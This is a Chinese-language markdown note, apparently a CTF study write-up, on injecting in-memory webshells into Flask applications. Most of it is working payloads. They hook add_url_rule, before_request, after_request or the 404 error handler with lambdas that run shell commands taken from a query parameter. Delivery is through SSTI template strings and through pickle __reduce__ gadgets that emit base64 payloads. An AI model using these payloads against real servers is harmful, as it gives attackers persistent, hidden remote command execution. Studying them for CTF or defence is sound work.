


# FLASK下python内存马

[Python\]Flask内存马学习.md at main · bfengj/CTF (github.com)](https://github.com/bfengj/CTF/blob/main/Web/python/[Python]Flask内存马学习.md)

[flask不出网回显方式 - Longlone's Blog](https://longlone.top/安全/安全研究/flask不出网回显方式/)

## 初始

在一个月黑风高的夜晚，看见一个从未见过的函数add_url_rule，然后经过亿系列的查询发现是flask的内存马常用的东西

```
add_url_rule()
可以添加一个自定义路由，并且可以自定义匿名函数，访问这个路由就可以调用这个匿名函数
```

这里有payload

```
sys.modules['__main__'].__dict__['app'].add_url_rule('/shell','shell',lambda :__import__('os').popen('dir').read())


ssti:
{{url_for.__globals__['__builtins__']['eval'](\"app.add_url_rule('/shell', 'myshell', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd')).read())\",{'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']})}}"
```

但是！这是老版本的，关闭debug模式会调用到check函数，然后会导致报错

然而在新版本当中，很多地方都存在check函数，so，G

然后看见有师傅提供了方法

```
通过@app.before_request @app.after_request来打
```


就是在请求之前做一些操作
看看这个装饰器



```
before_request_funcs.setdefault(None, []).append(f)
这个f就是我们传入的函数
so
lambda :__import__('os').popen('whoami').read()    这🐎不就又行了！

payload
eval("__import__('sys').modules['__main__'].__dict__['app'].before_request_funcs.setdefault(None,[]).append(lambda :__import__('os').popen('dir').read())")
```


```
eval("app.after_request_funcs.setdefault(None, []).append(lambda resp: CmdResp if request.args.get('cmd') and exec(\"global CmdResp;CmdResp=__import__(\'flask\').make_response(__import__(\'os\').popen(request.args.get(\'cmd\')).read())\")==None else resp)")

```



发现大佬通过其它hook也能打入

[新版FLASK下python内存马的研究 - gxngxngxn - 博客园 (cnblogs.com)](https://www.cnblogs.com/gxngxngxn/p/18181936)

```
errorhandler:   -----!!!控制404界面
exec("global exc_class;global code;exc_class, code = app._get_exc_class_and_code(404);app.error_handler_spec[None][code][exc_class] = lambda a:__import__('os').popen(request.args.get('gxngxngxn')).read()")


teardown_request
跟after_request差不多
```


### **pickle**利用下的payload

#### before_request:

```
import os
import pickle
import base64
class A():
    def __reduce__(self):
        return (eval,("__import__(\"sys\").modules['__main__'].__dict__['app'].before_request_funcs.setdefault(None, []).append(lambda :__import__('os').popen(request.args.get('gxngxngxn')).read())",))

a = A()
b = pickle.dumps(a)
print(base64.b64encode(b))
```

#### after_request:

```
import os
import pickle
import base64
class A():
    def __reduce__(self):
        return (eval,("__import__('sys').modules['__main__'].__dict__['app'].after_request_funcs.setdefault(None, []).append(lambda resp: CmdResp if request.args.get('gxngxngxn') and exec(\"global CmdResp;CmdResp=__import__(\'flask\').make_response(__import__(\'os\').popen(request.args.get(\'gxngxngxn\')).read())\")==None else resp)",))

a = A()
b = pickle.dumps(a)
print(base64.b64encode(b))
```

#### errorhandler:

```
import os
import pickle
import base64
class A():
    def __reduce__(self):
        return (exec,("global exc_class;global code;exc_class, code = app._get_exc_class_and_code(404);app.error_handler_spec[None][code][exc_class] = lambda a:__import__('os').popen(request.args.get('gxngxngxn')).read()",))

a = A()
b = pickle.dumps(a)
print(base64.b64encode(b))

```

ssti

```
{{url_for.__globals__['__builtins__']['eval'](\"app.add_url_rule('/shell', 'shell', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd')).read())\",{'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']})}}


{{url_for.__globals__['__builtins__']['eval'](\"app.before_request_funcs.setdefault(None, []).append(lambda :__import__('os').popen(request.args.get('gxngxngxn')).read())\",{'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']})}}
```

